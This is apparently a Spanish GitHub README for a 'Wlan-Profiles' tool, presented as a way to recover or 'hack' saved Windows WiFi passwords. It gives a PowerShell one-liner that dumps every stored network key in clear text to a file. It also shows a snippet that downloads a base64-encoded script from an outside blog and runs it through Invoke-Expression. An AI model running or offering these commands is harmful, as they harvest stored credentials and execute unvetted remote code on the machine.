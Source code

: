 # Wlan-Profiles
Aplicación Wlan Profiles hackear contraseñas de wifi
Cómo ver la contraseña de una red WiFi a la que estás conectado en Windows 
Es muy fácil saber la contraseña de la red WiFi a la que estás conectado en Windows, te explicamos cómo.
Si ya te has conectado con tu PC o portátil Windows a una red con contraseña, y ahora quieres conectar 
también tu smartphone o alguien te pregunta la clave y no la recuerdas, es muy fácil “recuperarla” desde tu ordenador.
![](https://3.bp.blogspot.com/-oPb9wuB5nUk/WjRqB56LuCI/AAAAAAAAI3A/wonBBPq85QEbBQmgxkGoWDTxBNlMa6_mwCLcBGAs/s200/lpericena%2Bwifi.png)
https://www.lpericena.tk/2019/03/importar-perfiles-wlan-con-powershell.html

```
(netsh wlan show profiles) | Select-String “\:(.+)$” | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=”$name” key=
clear)}>>wifi.txt
```
![](https://1.bp.blogspot.com/-MklkR5Po3Lk/XIvsQU3GKCI/AAAAAAAAOI4/2-lJrvpaGRYGL0DGn2JOuJJaBx722ITDACLcBGAs/s1600/powershell.png)
```
$url="https://www.jesusninoc.com/2017/01/24/hackear-wifi-con-powershell-script-codificado-en-base64/"
$result = Invoke-WebRequest $url
[String]$execute=$result.AllElements | Where class -eq 'crayon-pre' | %{$_.innerText}
Invoke-Expression "powershell -encodedcommand $execute"
```
![](https://4.bp.blogspot.com/-ShOocj2HPUM/XIuW5KbQhdI/AAAAAAAAOHc/pUdjWkNLFachuykLCPACzlIQGt-YYvtaACLcBGAs/s1600/Screenshot_94.png)
### Otros comandos 
- información del interfas del sistema.
Get-NetAdapter
- Para ver información de la interfaz de red WiFi.
Get-NetAdapter -Name Wi-Fi
- Mostrar cmdlets relacionados con el adaptador de red.
gcm -Noun netadapter | select name, modulename
- Utilizando netsh.
netsh wlan show networks mode=bssid

<form action="https://www.paypal.com/cgi-bin/webscr" method="post" target="_top">
<input type="hidden" name="cmd" value="_s-xclick" />
<input type="hidden" name="hosted_button_id" value="MJPRV838AYA2J" />
<input type="image" src="https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif" border="0" name="submit" title="PayPal - The safer, easier way to pay online!" alt="Donate with PayPal button" />
<img alt="" border="0" src="https://www.paypal.com/en_BO/i/scr/pixel.gif" width="1" height="1" />
</form>
<!-- Start of adf.ly banner code --><a href="https://join-adf.ly/21179079"><img border="0" src="https://cdn.ay.gy/images/banners/adfly.350x19.1.png" width="320" height="23" title="AdF.ly - acorta links y gana dinero!" /></a>
<!-- End of adf.ly banner code -->


Sigueme en las redes Sociales:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🎬 youtube.com  https://www.youtube.com/channel/UCELx1m-NeAdBn7mCuQ86kcw
- 📸 pinterest        https://es.pinterest.com/lushiopericena/
- 🐤 twitter             https://twitter.com/LPericena
- 👦 linkedin         https://www.linkedin.com/in/lpericena/
- 👍 facebook       https://www.facebook.com/profile.php?id=100009309755063
- 👍 pagina facebook  https://www.facebook.com/lpericena
- 🎮 sitio web        https://pericena.wordpress.com/
- vimeo         https://vimeo.com/lpericena
- 📷 instagram      https://www.instagram.com/lpericena/
- 🎁 remote      https://remote.com/luishinopericena-choque
- ⚛ google+   https://plus.google.com/u/0/114054031405340478901
- 🚀 kiwi       https://kiwi.qa/LuishinoC
- 📅 App    https://apps.facebook.com/167466933725219
- 👻 Grupo    https://www.facebook.com/groups/122223121705126/?source_id=1506435219407506
- 🎧 socialtools https://www.socialtools.me/index?action=demoApps&preview=1&app_id=406101
- ツ teachlr    https://teachlr.com/lpericena
- 📖  wikipedia  https://es.wikipedia.org/wiki/Usuario:Luishi%C3%B1o_Pericena_Choque
- 📧 ask          https://ask.fm/Lpericena
- 💻 stackoverflow  https://stackoverflow.com/users/6506592/luishi%C3%B1o-pericena-choque
- 📡 wix https://lpericena.wixsite.com/curriculumvitae
